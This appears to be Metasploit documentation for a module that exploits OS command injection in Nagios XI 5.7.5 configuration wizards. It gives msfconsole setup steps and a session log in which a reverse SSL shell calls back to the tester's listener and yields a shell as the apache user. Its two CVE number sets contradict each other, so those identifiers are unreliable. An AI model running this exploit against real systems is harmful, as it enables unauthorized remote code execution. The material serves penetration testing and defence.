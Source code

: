 ## Vulnerable Application
This module exploits CVE-2021-25926, CVE-2021-25927, or CVE-2021-25928, OS command injection vulnerabilities
in `/nagiosxi/config/monitoringwizard.php` that enable an authenticated user to achieve remote code execution
on NagiosXI 5.7.5. There are three vulnerable configuration wizards (windowswmi, switch, digitalocean) that 
use two vulnerable URL parameters (ip_address, plugin_output_len). The windowswmi uses the plugin_output_len,
while switch and digitalocean use ip_address.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate
to the target and obtain the Nagios XI version number, which is then used to check if the target is version 5.7.5 and therefore vulnerable.

An OVA with the vulnerable NagiosXI application can be downloaded from
Nagios [here](https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.7.5-64.ova).
The OVA has NagiosXI running on startup, but must be fully installed and have the license agreement accepted.
The module can attempt to do this for you, but can also be done manually by visiting the target's IP and configuring
it manually.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/nagios_xi_configwizards_authenticated_rce`
- [ ] `set RHOSTS TARGET_IP`
- [ ] `set RPORT 443`
- [ ] `set SSL true`
- [ ] `set USERNAME USER`
- [ ] `set PASSWORD PASSWORD`
- [ ] `set TARGET_URL_PARAM plugin_output_len`
- [ ] `set LHOST YOUR_IP`
- [ ] `set LPORT YOUR_LISTENING_PORT`
- [ ] `run`

## Options

### USERNAME
A valid NagiosXI username, which can be for an administrator or regular user.

### PASSWORD
The password for the provided NagiosXI username.

### TARGET_CONFIG_WIZARD
The vulnerable configuration wizard to target. Each target corresponds to a specific CVE:
- windowswmi : CVE-2021-25296
- switch : CVE-2021-25297
- digitalocean : CVE-2021-25298

## Scenarios

### CentOS7 running NagiosXI 5.7.5 (Official OVA)
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOSTS 192.168.104.7
RHOSTS => 192.168.104.7
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.104.2
LHOST => 192.168.104.2
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 1234
LPORT => 1234
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.104.2:1234 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.5
[+] The target appears to be vulnerable.
[*] Executing the payload
[*] Command shell session 1 opened (192.168.104.2:1234 -> 192.168.104.7:50884 ) at 2023-01-18 09:52:59 -0500

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```
